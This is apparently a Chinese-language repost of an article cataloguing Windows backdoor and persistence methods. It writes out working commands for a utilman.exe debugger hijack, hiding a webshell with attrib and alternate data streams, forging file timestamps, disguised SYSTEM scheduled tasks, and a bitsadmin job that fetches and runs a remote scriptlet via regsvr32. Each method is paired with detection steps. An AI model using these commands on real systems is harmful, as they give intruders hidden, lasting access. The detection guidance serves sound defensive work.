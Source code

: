## windows常见backdoor、权限维持方法及排查技术

### 什么是Persistence？ [^1]

### 常见backdoor和persistence方式方法

1. #### 系统工具替换后门 [^2]

   ```powershell
   # Image劫持辅助工具管理器（utilman.exe, 快捷键 Win + U）
   # 注册表更改命令详见 `reg.exe` 应用程序
   REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
   # 结果就是只要按键盘 Win + U 就可以打开 cmd 窗口，而不是辅助工具管理器窗口
   ```

   - 类似的程序有osk.exe（屏幕键盘程序）、Narrator.exe（讲述人程序）、Magnify.exe（放大镜程序）等。
   - 优点：简单
   - 缺点：易被检测
   - 排查：工具autoruns [^3]

2. #### 文件隐藏

   1. ##### attrib命令隐藏 [^4]

      `attrib +r +s +h webshell.php`

      - 优点：简单

      - 缺点：暂无
      - 排查：使用 attrib 命令，dir 命令（dir /a) 或者D盾

   2. ##### 使用ADS流隐藏webshell

      `echo "hello world" > demo.c:flags.txt`

      `echo "hello" > :key.txt` [^5]

      `notepad demo.c:flags.txt`

      - ```powershell
        # 此时应该注意修改文件的timestamp，可使用如下的powershell命令或者使用NewFileTime工具
        # $(Get-Item ).creationtime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # $(Get-Item ).lastaccesstime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # $(Get-Item ).lastwritetime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # example：
        # Set the last-access time for a file aaa.csv to the current time:  
        $(Get-Item aaa.csv).lastwritetime=$(Get-Date)
        # Set the creation time of a file foo.txt to November 24, 2015, at 6:00am: 
        $(Get-Item foo.txt).creationtime=$(Get-Date "11/24/2015 06:00 am")
        ```

      - 优点：较难检测
      - 缺点：暂无
      - 排查： `dir /r`
      - Ref : [利用ADS隐藏webshell](https://www.cnblogs.com/xiaozi/p/7610984.html) 、[Windows ADS在渗透测试中的妙用](https://www.freebuf.com/articles/terminal/195721.html)

3. #### 计划任务

   `schtasks /delete /tn "AdobeReaderUpdate" /f`

   `schtasks /create /ru "System" /tn "AdobeReaderUpdate" /sc Weekly /d * /st 18:00:00 /tr "powershell.exe C:\Windows\System32\drivers\en-US\etc\Line.ps1"`

   `SCHTASKS /Create /RU "SYSTEM" /tn "AdobeReaderUpdateEnd" /sc Weekly /d MON,TUE,WED,THU,FRI /st 06:00:00 /tr "powershell.exe Stop-Process -Name $processname"`

   `taskschd.msc`

   - 优点：简单
   - 缺点：易被检测
   - 排查： schtasks /query 命令进行查询或者通过计算机的管理查看，注意在windows的中文版系统中，schtasks命令需要切换字符为美国英语格式，使用命令chcp 437，或者直接工具autoruns

4. #### 开机启动项

   ```powershell
   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
   HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
   ...
   ```

   - 优点：重启权限维持
   - 缺点：一般杀软均会拦截
   - 排查：autoruns

5. #### 服务

   `sc create [ServerName] binPath= BinaryPathName`

   - 优点：重启权限维持
   - 缺点：一般杀软会拦截
   - 排查：工具autoruns

6. #### waitfor.exe

   - 不支持自启动，但可远程主动激活，后台进程显示为waitfor.exe
   - Ref : [详细参考](https://github.com/3gstudent/Waitfor-Persistence)
   - 优点：远程主动激活
   - 缺点：有waitfor进程
   - 排查：通过Process Explorer工具查看是否有waitfor.exe进程，并进一步查看启动参数等。

7. #### bitsadmin后门 [^6]

   ```powershell
   # 创建一个下载任务：
   bitsadmin /create backdoor
   # 添加文档：
   bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
   # 设置下载成功之后要执行的命令：
   bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
   # 执行任务：
   bitsadmin /Resume backdoor
   ```

   - Ref : [bitsadmin-backdoor-权限维持后门](https://paper.tuisec.win/detail/77720db7618e92c)
   - 优点：系统自带无需上传
   - 缺点：免杀效果一般
   - 排查：bitsadmin /list /verbose

8. #### WMI后门

   - Ref: [参考文档](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)、[Powersploit](https://github.com/PowerShellMafia/PowerSploit/blob/9e771d15bf19ab3c2ac196393c088ecdab6c9a73/Persistence/Persistence.psm1)
   - 优点：无文件，后门在系统重启五分钟之内触发且是system权限，相对来说难以排查
   - 缺点：暂无
   - 排查：工具autoruns

9. #### COM劫持

   - Ref: [freebuf](https://www.freebuf.com/articles/system/115241.html)、[CLR](https://www.4hou.com/technology/6863.html) 
   - 优点：隐藏性较好,autoruns查不到
   - 缺点：暂无
   - 排查：检查环境变量和注册表键值

10. #### meterpreter 权限维持 [^7]

   - `metsvc `是开机自启动的服务型后门
   - persistence模块是先上传vbs脚本并执行vbs脚本修改注册表`HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`从而完成自启动
   - Ref : [metsvc代码](https://github.com/rapid7/metasploit-framework/blob/76954957c740525cff2db5a60bcf936b4ee06c42/scripts/meterpreter/metsvc.rb)、[persistence代码](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/persistence_exe.rb)
   - 优点：开机自启动
   - 缺点：容易被杀软杀
   - 排查：autoruns

11. #### Empire persistence模块 [^8]

    - Ref ： [参考文章](https://www.harmj0y.net/blog/empire/nothing-lasts-forever-persistence-with-empire/)
    - 优点：基本集成了大部分的权限维持方法
    - 缺点：暂无
    - 排查：工具autoruns

12. #### 进程注入 [^9]

    - Ref : [Hunting empire](https://holdmybeersecurity.com/2019/02/27/sysinternals-for-windows-incident-response/)
    - 优点：较难排查
    - 缺点：暂无
    - 排查：工具process explorer 、process monitor

### other

- 还有像是dll劫持、一些软件的插件后门、office后门等
- 更多windows backdoor方面最新文章可以关注国外安全研究员Casey Smith@subTee和Adam@Hexacorn

[原文](https://xz.aliyun.com/t/4842)

---

[^1]: 持久化是指即使在创建它的进程停止或其运行的机器断电之后仍然存在的对象和进程特性。当一个对象或状态被创建并且需要持久时，它将保存在非易失性存储位置（如硬盘驱动器）中，而不是临时文件或易失性随机存取存储器（RAM）
[^2]: Windows提供了一个命令replace.exe，通过它我们可以替换系统文件
[^3]: Windows Sysinternals工具集里的一个软件，可显示在系统启动或登录期间配置要运行的程序，以及启动各种内置Windows应用程序
[^4]: windows自带命令行工具attrib用来显示或更改文件属性
[^5]: 编辑时需退到上级目录进行查看 `dir /r`，删除时需要将宿主文件删除或使用 WinHex工具
[^6]: Bitsadmin从win7之后操作系统就默认包含，可以用来创建上传或者下载任务。Bistadmin可以指定下载成功之后要进行什么命令。后门就是利用的下载成功之后进行命令执行
[^7]: meterpreter中的权限维持技术有两种，一种是metsvc的后门(服务后门)，另外一种是persistence(注册表后门)
[^8]: Empire是一款功能非常强大的后渗透攻击框架。其中的persistence模块提供了一系列权限维持方法。工具还把权限维持分为了四大类，userland(普通权限)、elevated(需要高权限)、powerbreach(内存权限维持，重启后失效)、miscellaneous(其它)
[^9]: 准确来说进程注入不是后门技术或者权限维持技术，而是一种隐藏技术，这里简单说一下empire的psinject、cobaltstrike的inject和meterpreter中的migrate进程注入，一般可以注入到像是lsass或者explorer这样的进程当中，相对比较隐蔽，较难排查